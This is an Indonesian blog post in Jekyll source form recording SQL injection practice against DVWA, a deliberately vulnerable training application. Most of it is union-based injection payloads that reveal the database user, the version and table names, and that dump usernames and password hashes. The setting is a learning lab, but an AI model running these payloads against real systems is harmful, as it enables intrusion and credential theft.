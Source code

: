 ```yaml
---
layout: post
title: "Sekelumit Injeksi SQL - dvwa"
date: 2019-02-28 05:22:15 +0000
categories: Technology
comments: false
---
```

catatan dari → [catatan sebelumnya tentang dvwa](https://immsswd.github.io/technology/install-dvwa) 
- bisa melihat user yang ada akses database:

```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, user() #';
```

- bisa lihat versi dari database:

```sql
select first_name, last_name from users where user_id = '%' or 0=0 union select null, version() #'
```
- Melihat informassi table2 yang ada dalam skema db kita

```sql
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables  #';
```
- Untuk mengecek apakah ada table user di salah satu db, masukkan perintah:

{% highlight sql %}
select first_name, last_name from users where user_id = '%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

select first_name, last_name from users where user_id = '%' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users #';

{% endhighlight %}

ilustrasi:
menggunakan `%' or 0=0 union select null, user() #` di form:
![injsql](/assets/img/20190122/3.png)

